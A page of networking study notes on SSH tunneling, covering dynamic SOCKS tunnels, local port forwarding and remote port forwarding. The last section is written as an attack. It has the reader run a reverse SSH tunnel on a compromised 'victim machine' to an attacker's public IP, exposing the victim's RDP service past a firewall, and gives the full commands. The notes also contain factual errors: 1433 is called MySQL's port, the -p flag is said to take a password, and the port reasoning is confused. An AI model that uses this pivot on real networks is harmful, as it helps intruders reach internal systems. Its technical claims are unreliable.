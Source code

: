 # 5.2 SSH Tunneling

## SSH Tunneling

![](../.gitbook/assets/image%20%2826%29.png)

* Here the,
  * delivery protocol is SSH on port 22.
  * and main communication happens on port 1433 \(default MySQL port\).

## There are three ways of SSH tunneling

1. Dynamic SSH tunneling
2. Local port forwarding using SSH tunneling
3. Remote port forwarding using SSH tunneling

## Dynamic SSH tunneling

* We need to setup a SOCKS proxy,
  * We first need a **proxy server on client side**.
  * We then need to configure the other end of the communication to accept traffic.
* We then need to either configure all application configurations manually or automatically to "tell all applications to use the client side SOCKS proxy for communication". 
* So all the requests of internet are now sent to proxy.

### Dynamic SSH tunneling using SSH

```text
ssh -D 85 user@192.168.1.1
```

* The above commands configures an SSH Tunnel
  * -D bind port. Which specifies the delivery connection port.
  * one end \(local\) of the SSH tunnel is the system where the above command is executed. the other end is 192.168.1.1 using username "user".

![SSH -D option description](../.gitbook/assets/image%20%288%29.png)

![SSH Tunneling - Dynamic](../.gitbook/assets/image%20%2821%29.png)

* Here,
  * the delivery protocol is 22 \(SSH\)
  * and main communication protocol is 844.
* Examples of dynamic SSH tunneling are
  * Psiphon
  * Tor Browser

## SSH tunneling Local Port forwarding

* Unlike Dynamic SSH proxy server we do not have to create a client side proxy server here. Infact we do not need a proxy server. All things are done by SSH tunneling itself. 
* On our client machine we will open URL _http://127.0.0.1:8080_.
* Note that 8080 = 80. Actually by 8080 we are just asking to use http service.
* This request will be internally tunneled on port 53 by configured SSH tunnel.
* We have a similar relay server which helps as communicator.

![SSH Tunneling - Local Port forwarding](../.gitbook/assets/image%20%2815%29.png)

### Example of local port forwarding

1. Remote desktop \(using vnc for ubuntu\)

## SSH Tunneling Remote Port forwarding

* Given we RDP ports are not allowed through firewall means 3389 and 2290 are blocked at firewall level.
* And given only port 53 is allowed.
* Given that the victim machine has RDP services active and running on port 3389.
* We will use SSH port tunneling technique to talk directly to the server. We do not need relay server in this kind of exploits.

### Working

* Suppose we have got access to victim machine which is inside a protect environment. The victim machine has a private IP address, so we cannot directly access RDP of machine.
* Given that in victim machine RDP service \(3389\) is running.
* We first create a reverse SSH Tunnel for tunneling port 3389 \(RDP port\). We need to run this command on the victim machine.
  * `ssh -R 7000:127.0.0.1:3389 user@212.33.40.5 -p abcd1234`
    * `abcd1234` is the password of the attacker machine
    * `212.33.40.5` is a public IP address of the attacker machine
    * `3389` is the mail communication protocol. The service is running on victim system.
    * `7000` is the port which the attacker will use to access the tunneled RDP connection.
* Once the SSH tunnel is created, a service is automatically started on the attacker machine \(note that we specified username and password of attacker machine\). 
  * `service : 0.0.0.0:7000`
* Now to access the remote console of the victim system.
  * `rdesktop 127.0.0.1:7000`

![](../.gitbook/assets/image%20%2828%29.png)



